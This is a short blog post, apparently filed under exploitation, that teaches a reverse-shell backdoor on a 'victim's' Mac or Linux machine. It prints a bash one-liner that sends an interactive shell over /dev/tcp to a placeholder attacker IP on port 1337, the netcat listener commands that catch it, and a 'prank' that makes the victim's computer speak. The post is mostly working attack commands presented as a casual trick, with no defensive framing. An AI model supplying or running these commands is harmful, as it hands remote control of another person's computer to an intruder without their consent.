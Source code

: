 Title: A Lit Backdoor
Date: 2014-06-21 2:00
Category: Exploitation
Tags: Reverse_shell netcat

I was never a big fan of MacBooks. Being a penguin user for so long, you learn to stop worrying and love the bomb. But here is a little trick that works for both.

In the victim's machine (presumably a macbook), create the reverse shell in the port 1337:

```bash
$ sh -i >& /dev/tcp/ATTACKERS_IP/1337 0>&1
```

Now just netcat to it. From a Linux machine:

```bash
$ nc -l -p 1337
```

Or from a Macbook:
```bash
$ nc -l 1337
```

You should get shell. A cute prank is making the victim's computer talk:

```bash
$ say Hacked
```

:)

